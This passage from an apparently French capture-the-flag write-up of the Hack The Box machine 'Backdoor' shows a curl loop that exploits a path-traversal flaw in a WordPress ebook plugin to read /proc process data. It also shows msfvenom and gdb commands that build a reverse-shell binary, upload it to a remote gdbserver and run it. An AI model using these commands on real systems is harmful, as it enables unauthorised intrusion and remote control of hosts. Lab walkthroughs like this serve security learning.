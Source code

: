 Cependant, Linux maintient une liste de processus dans `/proc` et cela est accessible par n'importe qui. Après avoir vérifié que cela fonctionne avec `Burp`,  nous pouvons écrire un petit bout de script pour automatiser la chose :

```
for i in $(seq 0 2000); do echo -n "$i: "; curl "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=//proc/$i/cmdline" --output -; echo; done | tee pid.lst
```

![Backdoor PS List](/images/2022/03/Backdoor_GDB.png)

NB : a noter que le "//", est une sorte d'abréviation pour remplacer les moultes "../../" qui permettent de remonter du `webdir` jusqu'à la racine du système.

Ce script est très sommaire et mériterait quelques coups de `sed` / `awk` pour nettoyer l'`output`, cependant, il nous révèle la présence d'un serveur `gdb` sur le port 1337 que nous avions raté lors de notre scan `nmap` initial.


### Obtenir un premier shell

Après quelques secondes de lectures sur [la bible du PenTest](https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver), nous trouvons une méthode pour exploiter un serveur distant `gdb` :

```
# Trick shared by @B1n4rySh4d0w
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

# Set remote debuger target
target extended-remote 10.10.10.11:1337

# Upload elf file
remote put binary.elf binary.elf

# Set remote executable file
set remote exec-file /home/user/binary.elf

# Execute reverse shell executable
run

# You should get your reverse-shell
```
